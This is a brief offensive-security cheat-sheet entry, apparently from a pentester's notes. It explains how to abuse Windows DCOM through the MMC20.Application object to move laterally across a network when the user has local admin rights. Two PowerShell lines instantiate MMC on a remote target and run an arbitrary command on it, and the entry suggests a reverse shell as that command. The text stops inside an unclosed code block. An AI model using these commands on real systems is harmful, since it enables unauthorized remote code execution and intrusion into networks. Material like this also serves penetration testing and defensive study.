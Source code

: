 ```yaml
---
id: DCOM
aliases:
  - DCOM
tags:
  - windows
  - AD
  - lateral
---
```

Exploit the Distributed Component Object Model for lateral movement.

Only prerequisite is to be local admin.
## In practice

1. Instantiate a remote MMC 2.0 application:
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$TARGET_IP"))
```

2. Execute a command (i.e. revshell):
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("$CMD",$null,"$CMD_PARAMS","7")
